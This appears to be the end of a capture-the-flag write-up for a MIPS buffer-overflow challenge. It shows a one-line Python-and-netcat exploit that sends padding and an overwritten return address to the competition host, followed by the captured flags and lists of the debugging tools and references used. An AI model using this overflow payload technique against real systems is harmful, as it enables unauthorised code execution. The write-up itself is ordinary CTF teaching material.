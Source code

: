 ```
python -c "print('run\n'+ '1'*264 + '\x60\x08\x40')" | netcat buffer-overflow.ctfcompetition.com 1337
[...]
>>Inputs: run
CTF{controlled_crash_causes_conditional_correspondence}
CTF{Why_does_cauliflower_threaten_us}
Cauliflower systems never crash >>
segfault detected! ***CRASH***
```
There's another SEGFAULT happening now, but only after the bonus flag has been printed!

**Flag2: CTF{controlled_crash_causes_conditional_correspondence}**

Resources used:
- [GDB cheat sheet](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)
- [MIPS instruction reference](http://www.mrc.uidaho.edu/mrc/people/jff/digital/MIPSir.html)
- [Unicode character table](https://www.utf8-chartable.de/)

Tools used:
- [qemu emulator](https://wiki.qemu.org/Main_Page)
- [gdb-multiarch](https://aur.archlinux.org/packages/gdb-multiarch)
- [cross-mipsel-linux-gnu-binutils](https://aur.archlinux.org/packages/cross-mipsel-linux-gnu-binutils)


